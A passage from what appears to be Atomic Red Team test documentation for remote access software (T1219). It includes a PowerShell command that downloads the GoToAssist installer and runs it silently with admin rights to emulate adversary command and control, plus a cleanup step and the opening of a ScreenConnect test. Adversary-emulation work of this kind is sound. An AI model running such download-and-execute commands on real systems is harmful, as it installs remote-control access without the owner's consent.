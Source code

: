 



<br/>
<br/>

## Atomic Test #4 - GoToAssist Files Detected Test on Windows
An adversary may attempt to trick the user into downloading GoToAssist and use to establish C2. Download of GoToAssist installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** 1b72b3bd-72f8-4b63-a30b-84e91b9c3578






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Downloads\GoToAssist.exe "https://launch.getgo.com/launcher2/helper?token=e0-FaCddxmtMoX8_cY4czssnTeGvy83ihp8CLREfvwQshiBW0_RcbdoaEp8IA-Qn8wpbKlpGIflS-39gW6RuWRM-XHwtkRVMLBsp5RSKp-a3PBM-Pb1Fliy73EDgoaxr-q83WtXbLKqD7-u3cfDl9gKsymmhdkTGsXcDXir90NqKj92LsN_KpyYwV06lIxsdRekhNZjNwhkWrBa_hG8RQJqWSGk6tkZLVMuMufmn37eC2Cqqiwq5bCGnH5dYiSUUsklSedRLjh4N46qPYT1bAU0qD25ZPr-Kvf4Kzu9bT02q3Yntj02ZA99TxL2-SKzgryizoopBPg4Ilfo5t78UxKTYeEwo4etQECfkCRvenkTRlIHmowdbd88zz7NiccXnbHJZehgs6_-JSVjQIdPTXZbF9T5z44mi4BQYMtZAS3DE86F0C3D4Tcd7fa5F6Ve8rQWt7pvqFCYyiJAailslxOw0LsGyFokoy65tMF980ReP8zhVcTKYP8s8mhGXihUQJQPNk20Sw&downloadTrigger=restart&renameFile=1"
$file1 = "C:\Users\" + $env:username + "\Downloads\GoToAssist.exe"
Start-Process $file1 /S;
```

#### Cleanup Commands:
```powershell
try{"$PathToAtomicsFolder/T1219/bin/GoToCleanup.ps1"} catch{}
```





<br/>
<br/>

## Atomic Test #5 - ScreenConnect Application Download and Install on Windows
An adversary may attempt to trick the user into downloading ScreenConnect for use as a C2 channel. Download of ScreenConnect installer will be in the Downloads directory.
Msiexec will be used to quietly insall ScreenConnect.

**Supported Platforms:** Windows


**auto_generated_guid:** 4a18cc4e-416f-4966-9a9d-75731c4684c0
